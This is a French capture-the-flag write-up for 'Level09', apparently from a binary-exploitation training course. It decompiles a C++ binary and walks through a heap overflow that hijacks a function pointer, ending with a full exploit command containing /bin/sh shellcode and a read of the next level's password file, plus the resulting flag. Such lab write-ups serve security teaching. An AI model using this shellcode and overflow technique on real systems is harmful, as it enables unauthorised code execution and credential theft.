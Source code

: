 # Rapport CTF - [Level09]

### Observation :
En arrivant sur le level9 on trouve un exécutable nommé level9.\
Quand nous essayons de le lancer nous n'avons pas de retour. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c++
//----- (080486F6) --------------------------------------------------------
void __cdecl N::N(N *this, int a2)
{
*(_DWORD *)this = off_8048848;
*((_DWORD *)this + 26) = a2;
}

//----- (0804870E) --------------------------------------------------------
void *__cdecl N::setAnnotation(N *this, char *s)
{
size_t v2; // eax

v2 = strlen(s);
return memcpy((char *)this + 4, s, v2);
}

//----- (080485F4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
N *v3; // ebx
N *v4; // ebx
N *v6; // [esp+1Ch] [ebp-8h]

if ( argc :	push   %ebp
0x080485f5 :	mov    %esp,%ebp
0x080485f7 :	push   %ebx
0x080485f8 :	and    $0xfffffff0,%esp
0x080485fb :	sub    $0x20,%esp
0x080485fe :	cmpl   $0x1,0x8(%ebp)
0x08048602 :	jg     0x8048610 
0x08048604 :	movl   $0x1,(%esp)
0x0804860b :	call   0x80484f0 
0x08048610 :	movl   $0x6c,(%esp)
0x08048617 :	call   0x8048530 
0x0804861c :	mov    %eax,%ebx
0x0804861e :	movl   $0x5,0x4(%esp)
0x08048626 :	mov    %ebx,(%esp)
0x08048629 :	call   0x80486f6 
0x0804862e :	mov    %ebx,0x1c(%esp)
0x08048632 :	movl   $0x6c,(%esp)
0x08048639 :	call   0x8048530 
0x0804863e :	mov    %eax,%ebx
0x08048640 :	movl   $0x6,0x4(%esp)
0x08048648 :	mov    %ebx,(%esp)
0x0804864b :	call   0x80486f6 
0x08048650 :	mov    %ebx,0x18(%esp)
0x08048654 :	mov    0x1c(%esp),%eax
0x08048658 :	mov    %eax,0x14(%esp)
0x0804865c :	mov    0x18(%esp),%eax
0x08048660 :	mov    %eax,0x10(%esp)
0x08048664 :	mov    0xc(%ebp),%eax
0x08048667 :	add    $0x4,%eax
0x0804866a :	mov    (%eax),%eax
0x0804866c :	mov    %eax,0x4(%esp)
0x08048670 :	mov    0x14(%esp),%eax
0x08048674 :	mov    %eax,(%esp)
0x08048677 :	call   0x804870e 
0x0804867c :	mov    0x10(%esp),%eax
0x08048680 :	mov    (%eax),%eax
0x08048682 :	mov    (%eax),%edx
0x08048684 :	mov    0x14(%esp),%eax
0x08048688 :	mov    %eax,0x4(%esp)
0x0804868c :	mov    0x10(%esp),%eax
0x08048690 :	mov    %eax,(%esp)
0x08048693 :	call   *%edx
0x08048695 :	mov    -0x4(%ebp),%ebx
0x08048698 :	leave  
0x08048699 :	ret 
```
On peut voir à partir de la ligne 136 que eax vas être mov dans edx qui vas exécuter sa valeur dereferencer.


### Solution :
Il nous faut donc overflow notre malloc (new) de `108` octets pour mettre une valeur de retour avec l'adresse de notre arv[1]. \
On injecte donc notre code: 
- Notre adresse de `arv[1] + 4` pour le dereferancement
- Notre `SHELLCODE` (en locurance 24 caracteres)
- Des octets random jusqu'a atteindre `108` pour pouvoir overflow, donc `108 - 4 - 24`
- Et enfin l'adresse de notre arv[1] pour qu'il puisse la déréférencer et arriver sur notre shellcode.

On fait la commande suivante pour obtenir le flag :
```sh
/home/user/level9/level9 $(python -c "print('\x08\x04\xa0\x10'[::-1]  + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'A'*(108 - 4 - 24) + '\x08\x04\xa0\x0c'[::-1])") <<< "cat /home/user/bonus0/.pass"
```

### Resultat :
```sh
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
